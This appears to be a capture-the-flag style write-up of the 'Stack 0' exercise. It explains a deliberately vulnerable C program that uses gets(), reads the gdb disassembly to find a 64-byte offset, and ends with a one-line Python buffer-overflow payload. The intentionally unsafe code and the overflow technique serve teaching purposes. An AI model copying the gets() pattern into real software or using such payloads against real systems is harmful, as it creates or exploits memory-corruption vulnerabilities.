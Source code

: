 ```yaml
---
title: Stack 0
sidebar_position: 1
custom_edit_url: null
---
```


> This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

## Source code
```c title="source code"
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
As we can see a `modified` variable is initialized which has the qualifier `volatile` is created. The `volatile` qualifier tells the compiler to not optimize the usage of the variable as it can be changed at any time. 

Afterwards, a buffer of 64 bytes is created.

The variable is later initialized to `0`.

The `gets` system call is used to read user input into the buffer. This syscall is infamous for it's bugs. 

Let's look at the manual page.
```
 BUGS     

       Never use gets(). Because it is impossible to tell without
       knowing the data in advance how many characters gets() will read,
       and because gets() will continue to store characters past the end
       of the buffer, it is extremely dangerous to use. It has been
       used to break computer security. 
```

So the `gets` syscall stores characters past the end of the buffer. This essentially breaks the limit set on the buffer which means we can input more than 64 bytes.

This is the vulnerability that we have to exploit.
But before that let's go through the rest of the code. 

There is an `if` statement which checks if the value of `modified` in not equal to zero. If it is not equal to 0, it prints out a string `else` it prompts us to try again.

We have to overwrite the `modified` variable using a buffer overflow. For that we have have to know where the `modified` variable is located.

Let's disassemble the program in `gdb`.
```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```

Look at the instruction at `main+9`.
```
--snip--;
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
--snip--;
```
We can see that the variable is located at `esp+0x5c` and is set to zero using dereferencing.

Next, we want to locate the buffer.
```
--snip--;
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
--snip--;
```
In 32-bit assembly the arguments for a `call` are stored onto the `stack`.

In our program the `gets` syscall takes the location of the buffer as argument. This buffer is located at `esp+0x1c`.

The distance between the location of the `modified` variable and the buffer is the following:
```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```

The variable is located right where the buffer ends.

Therefore we need 65 bytes in total, 64 bytes to fill the buffer and 1 byte to overwrite the `modified` variable. 
```
$ ./stack0
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaB
you have changed the 'modified' variable
```

We can use `python` to craft the exploit.

## Exploit
```
$ python -c 'print "a"*(64)+"B"' | ./stack0
you have changed the 'modified' variable
```
